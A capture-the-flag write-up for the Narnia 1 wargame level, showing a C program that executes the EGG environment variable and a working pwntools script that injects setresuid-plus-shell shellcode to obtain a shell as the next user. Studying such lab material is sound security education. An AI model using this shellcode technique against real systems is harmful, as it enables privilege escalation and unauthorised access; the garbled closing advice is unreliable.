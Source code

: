 # Narnia 1

## C File

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

## Approach

Looking at the code we see that first it gets the environment variable `EGG` and makes sure it exists. Then it tries running it

Now what we can do is set `EGG` to a shellcode, a list of assembly instructions that will open up a shell for us

When the binary jumps to our `EGG` it will the run the assembly instructions eventually opening up a shell

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
s = asm(shellcraft.setresuid() + shellcraft.sh())
p = process("/narnia/narnia1", env={"EGG":s})
p.interactive()
```

We can use the pwntools shellcraft module to make it easy to get a shell

First we need to set the UIDs so the binary doesn't drop priveleges and gives us a shell as narnia2

Then we add in the `sh` shellcode which opens up a shell

Finally we send this to the process as an env-variable and enter interactive mode and open up the password file

## Conclusion

When writing C programs don't call unsafe functions as they can be shellcode
